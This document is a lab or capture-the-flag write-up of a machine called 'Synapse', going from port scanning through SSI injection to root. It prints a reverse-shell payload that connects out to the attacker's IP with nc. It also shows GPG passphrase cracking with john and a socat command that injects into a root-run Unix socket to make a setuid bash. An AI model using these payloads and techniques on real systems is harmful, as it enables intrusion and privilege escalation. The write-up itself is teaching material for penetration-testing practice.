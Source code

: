 # Synapse

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.149
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 12:30 +08
Nmap scan report for 192.168.201.149
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

### SMB + FTP Rabbit Holes

FTP doesn't accept anonymous logins, and SMB with no credentials doesn't show us any share that we can access:

```
$ smbmap -H 192.168.201.149
[+] IP: 192.168.201.149:445     Name: 192.168.201.149                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

It is thus likely that there's a web exploit, so we can start proxying traffic through Burpsuite.&#x20;

### Web Enum --> SSI Injection

Port 80 was running a custom dashboard:

<figure><img src="../../../.gitbook/assets/image (16) (11).png" alt=""><figcaption></figcaption></figure>

The File Manager was running elFinder, but we cannot access it since we need administrative access:

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

I checked the user tab, and found that the user was called `mindsflee`:

<figure><img src="../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

All of options were under construction, except for the one on the right most.&#x20;

<figure><img src="../../../.gitbook/assets/image (21) (4).png" alt=""><figcaption></figcaption></figure>

From my enumeration, this seems to be the most vulnerable point. I attempted to upload some PHP webshells, but it seems only images are allowed.

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

There was one weird part, which was the `url=inspect.shtml` portion, since I had never seen that before. Searching for `shtml` gives us results for Server Side Includes (SSI).

<figure><img src="../../../.gitbook/assets/image (27) (3).png" alt=""><figcaption></figcaption></figure>

Hacktricks has done a page on SSI Injection that we could try.

{% embed url="https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection" %}

We can try some of the payloads:

<figure><img src="../../../.gitbook/assets/image (20) (2).png" alt=""><figcaption></figcaption></figure>

If we follow the redirect, we get this:

<figure><img src="../../../.gitbook/assets/image (6) (4).png" alt=""><figcaption></figcaption></figure>

We now have RCE on the machine, and we can easily get a reverse shell using this:

```
<!--#exec cmd='nc -c bash 192.168.45.189 21' -->
```

<figure><img src="../../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GPG Creds --> Mindsflee Shell

Within the `/home/mindsflee` directory, there are some files of interest:

```
www-data@synapse:/home/mindsflee$ ls -la
total 32
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 .
drwxr-xr-x 3 root      root      4096 Jun 10  2021 ..
lrwxrwxrwx 1 root      root         9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 mindsflee mindsflee  220 Jun 10  2021 .bash_logout
-rw-r--r-- 1 mindsflee mindsflee 3526 Jun 10  2021 .bashrc
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .gnupg
-rw-r--r-- 1 mindsflee mindsflee  807 Jun 10  2021 .profile
-rw-r--r-- 1 mindsflee mindsflee   33 Jul 15 00:29 local.txt
-rw-r--r-- 1 root      root      2058 Jan  3  2021 synapse_commander.py

www-data@synapse:/home/mindsflee/.gnupg$ ls -la
total 20
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 ..
-rw-r--r-- 1 mindsflee mindsflee 5180 Jun 14  2021 creds.priv
-rw-r--r-- 1 mindsflee mindsflee  124 Jun 14  2021 creds.txt.gpg
```

The `.gnupg` file contains some creds. Download these files back to our machine, and we can then try to decrypt it. Using `gpg`, we can attempt to import this key but it requires a passphrase.&#x20;

We can crack this using `gpg2john` and `john`:

```
$ gpg2john creds.priv > gpg_hash
$ john --show gpg_hash                                     
mindsflee:qwertyuiop:::mindsflee::creds.priv
```

Using this, we can then import the key using `gpg` and decrypt the file:

```
$ gpg --import creds.priv       
gpg: key 8ECE3C203E92BE79: "mindsflee" not changed
gpg: key 8ECE3C203E92BE79: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1

$ gpg --output decrypted --decrypt creds.txt.gpg
gpg: AES256.CFB encrypted data
gpg: encrypted with 1 passphrase

$ cat decrypted                           
user: mindsflee
password: m1ndsfl33w1llc4tchy0u?
```

Using this password, we can `su` to `mindsflee`.

<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges --> Socket Injection

The `mindsflee` user can use `sudo` with the Python script we found:

```
[sudo] password for mindsflee: 
Matching Defaults entries for mindsflee on synapse:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mindsflee may run the following commands on synapse:
    (root) /usr/bin/python /home/mindsflee/synapse_commander.py
```

Here's the content of the script:

```python
import socket
import os, os.path, sys
import time
from collections import deque    





print("""\
  
 _____ __ __ _____ _____ _____ _____ _____    _____ _____ _____ _____ _____ _____ ____  _____ _____ 
|   __|  |  |   | |  _  |  _  |   __|   __|  |     |     |     |     |  _  |   | |    \|   __| __  |
|__   |_   _| | | |     |   __|__   |   __|  |   --|  |  | | | | | | |     | | | |  |  |   __|    -|
|_____| |_| |_|___|__|__|__|  |_____|_____|  |_____|_____|_|_|_|_|_|_|__|__|_|___|____/|_____|__|__|


 
  """)

print("Focus your approach with a system designed for single network port access.")
print ("With Synapse Commander, a single arm delivers three multi-jointed instruments")
print("and a fully wristed 3DHD camera for visibility and control in narrow surgical spaces.")
print("Streamlined setup, multiple control modes and a dynamic statistics display are included")
print
print("1 - Access to ARM management")
print("2 - Enable 3DHD camera")
print("3 - Settings")
print("4 - Reboot the system")
print
instruction = raw_input("Synapse Instruction:")

if instruction == "1":
    
    print ("\nARM MANAGEMENT ENABLED")
    os.system("touch 2343432445467676")
elif instruction == "2":
    
    print ("\n3DHD CAMERA ENABLED")
    os.system("touch 5344225453244546")
elif instruction == "3":
    
    print ("\nACCESS TO SETTINGS CONFIGURATION")
    os.system("touch 77756563456244546")
elif instruction == "4":
    
    print ("\nSYSTEM REBOOTED")
    os.execl(sys.executable, sys.executable, *sys.argv)

else:
    os.execl(sys.executable, sys.executable, *sys.argv)



if os.path.exists("/tmp/synapse_commander.s"):
  os.remove("/tmp/synapse_commander.s")    

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/synapse_commander.s")
os.system("chmod o+w /tmp/synapse_commander.s")
while True:
  server.listen(1)
  conn, addr = server.accept()
  datagram = conn.recv(1024)
  if datagram:
    print(datagram)
    os.system(datagram)
    conn.close()
```

This program seems to open a Socket as `root` using the configuration of `synapse_commander.s` after we input any number from 1-3, since option 4 and all others would just re-run the script.&#x20;

Again, Hacktricks has a page for this:

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/socket-command-injection" %}

In one SSH session, run the Python script and input '1'. In another SSH session, run this command:

{% code overflow="wrap" %}
```bash
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/synapse_commander.s
```
{% endcode %}

When we enter that command, the script starts waiting for data to be sent in, which it passes to `os.system(datagram)`. This would result in RCE as `root`:

<figure><img src="../../../.gitbook/assets/image (13) (1) (7).png" alt=""><figcaption></figcaption></figure>

We can then easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (22) (12).png" alt=""><figcaption></figcaption></figure>
